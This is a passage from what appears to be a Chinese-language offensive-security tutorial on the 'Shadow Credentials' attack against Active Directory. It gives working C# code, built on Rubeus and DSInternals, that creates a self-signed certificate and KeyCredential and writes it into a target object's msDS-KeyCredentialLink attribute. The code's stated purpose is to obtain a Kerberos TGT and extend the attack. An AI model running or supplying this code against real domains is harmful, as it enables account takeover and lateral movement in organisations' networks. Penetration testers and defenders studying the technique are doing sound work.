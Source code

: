 这种信任模型消除了使用无密码身份验证必须为每个人颁发客户端证书的需要。但是，域控制器仍需要用于会话密钥交换的证书。

这意味着如果我们可以写入用户的 `msDS-KeyCredentialLink` 属性，那么就可以获得该用户的 TGT。

下面，我们将基于 Rubeus 和 Michael Grafnetter（[@MGrafnetter](https://twitter.com/MGrafnetter)）的 [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) 库实现这种技术。这将为当前计算机生成一个自签名证书和 Key Credential，并将 Key Credential 信息存储在当前计算机的 `msDS-KeyCredentialLink` 属性中。生成的证书可以与 Rubeus 提供的 `Ask.TGT()` 方法一起使用，以请求 TGT 票据并进一步扩大攻击。

首先，我们创建一个 `GenerateSelfSignedCert()` 方法，通过 `System.Security.Cryptography.X509Certificates.CertificateRequest` 类为当前计算机创建一个自签名的 X509 证书。

```c#
private static X509Certificate2 GenerateSelfSignedCert(string cn)
{
    // UseMachineKeyStore: https://stackoverflow.com/questions/1102884/rsacryptoserviceprovider-cryptographicexception-system-cannot-find-the-file-spec
    CspParameters csp = new CspParameters(24, "Microsoft Enhanced RSA and AES Cryptographic Provider", Guid.NewGuid().ToString());
    csp.Flags = CspProviderFlags.UseMachineKeyStore;
    RSA rsa = new RSACryptoServiceProvider(2048, csp);
    CertificateRequest req = new CertificateRequest(String.Format("cn={0}", cn), rsa, HashAlgorithmName.SHA256, RSASignaturePadding.Pkcs1);
    X509Certificate2 cert = req.CreateSelfSigned(DateTimeOffset.Now, DateTimeOffset.Now.AddYears(1));
    return cert;
}
```

在代码中，我们使用了 `CspParameters` 类来配置 RSA 密钥容器的参数，以及密钥存储的位置。然后，我们创建了一个 2048 位的 RSA 密钥对，并将其用于创建一个 `CertificateRequest` 证书请求对象。最后，我们通过调用 `CreateSelfSigned` 方法，生成并返回证书。

然后，通过 [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) 库提供的 `KeyCredential` 类，利用之前生成的自签名证书（公钥）、随机生产的 GUID、当前计算机对象的 `distinguishedName` 属性，以及当前日期时间，初始化一个 Key Credential 对象。。

```c#
X509Certificate2 cert = GenerateSelfSignedCert(targetComputer);

// ...

Guid guid = Guid.NewGuid();
KeyCredential keyCredential = new KeyCredential(cert, guid, targetObject.Properties["distinguishedName"][0].ToString(), DateTime.Now);
Console.WriteLine("[*] KeyCredential generated with DeviceID {0}", guid.ToString());

// ... 

try
{
    Console.WriteLine("[*] Updating the msDS-KeyCredentialLink attribute of the target object");
    targetObject.Properties["msDS-KeyCredentialLink"].Add(keyCredential.ToDNWithBinary());
    targetObject.CommitChanges();
    Console.WriteLine("[+] Updated the msDS-KeyCredentialLink attribute of the target object");
}
catch (Exception e)
{
    // ... 
}
```
